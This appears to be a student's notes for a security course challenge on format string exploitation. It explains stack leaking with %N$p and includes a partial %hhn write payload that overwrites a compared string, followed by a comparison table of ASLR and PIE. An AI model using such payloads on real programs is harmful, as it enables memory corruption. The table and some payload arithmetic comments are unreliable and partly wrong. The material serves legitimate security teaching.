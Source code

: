 > The idea behind format strings is your kinda indexing into the list of arguments to printf, however since there's only one argument you're kinda overrunning that "list" of arguments and instead reading random stuff off the stack. (%N$p is basically just rbp+8*(N+1))
Another thing thats on the stack is your buffer, so eventually one of those things in the "list" of arguments will be your buffer. However it might not be perfectly aligned with printfs idea of its arguments.
So you'll want to find where your buffer is: do AAAAAAAA%N$p until you see 0x414141414141 filling up the entire argument. If you instead see like 0x204141414141, try maybe bAAAAAAAA and see if now your A's fill up the entire thing (and maybe you need to try the next element instead)

```
e.g. in memory it might look something like
11 [AA??????]
10 [AAAAAA9F]
9  [????????]
```


## ALSR vs PIE
| Configuration                    | Code Segment Address | Heap Address | Stack Address | Security Level |
|----------------------------------|----------------------|--------------|--------------|----------------|
| ASLR Enabled, No PIE             | Fixed                | Randomized   | Randomized   | Moderate       |
| PIE Enabled, No ASLR             | Fixed                | Fixed        | Fixed        | Low            |
| ASLR Enabled + PIE Enabled       | Randomized           | Randomized   | Randomized   | High           |
| No ASLR, No PIE                  | Fixed                | Fixed        | Fixed        | Very Low       |


## meme

* compare "COMP6447" locates at rbp-0x219 with "2tRi****" load from mem for first 4 characters, so try to overwrite rbp-0x219 to 2tRi
* offset: AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p, it turns out the 8th offset is usable
* payload = b"%46c...." + b"%16$hhn."  **.** is for the aligh, 2 with ascii decimal = 50 coz have 4 dots, so need %46c which means 46 spaces and 4 dots characters be written, and we wrote 50 to the address: payload += p64(target_address)
	* why 46c: align
	
	* why %16: 

	```
	payload = (b"%46c....")    # 8th offset
	payload += (b"%16$hhn.")
	
	payload += (b"%61c....")  # t = 116 - 50 =
	payload += (b"%17$hhn.")
	
	payload += (b"%218c...")  # R = 82 - 116 + 256 =222 - 4
	payload += (b"%18$hhn.")
	
	payload += (b"%18c....")  # i = 105 - 82
	payload += (b"%19$hhn.")
	